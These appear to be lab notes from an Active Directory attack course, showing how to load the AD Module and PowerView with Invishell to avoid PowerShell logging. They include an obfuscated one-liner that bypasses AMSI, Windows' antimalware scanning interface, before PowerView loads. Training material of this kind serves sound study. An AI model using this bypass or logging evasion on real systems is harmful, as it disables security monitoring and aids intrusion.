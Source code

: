 # LOAD NECESSARY POWERSHELL SCRIPTS

<p>Let's start a PowerShell session using Invishell to avoid verbose logging. We will use Microsoft's AD 
Module for solving the tasks of this Hands-On:</p>

<p>The scripts can be loaded into memory from on disk as shown below or from a Download and execute cradel</p>

## AD Module
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

## Powerview
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools>powershell

PS C:\AD\Tools>
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x')) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;(Get-varI`A`BLE ( ('1Q'+'2U')+'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

PS C:\AD\Tools>. C:\AD\Tools\PowerView.ps1

```
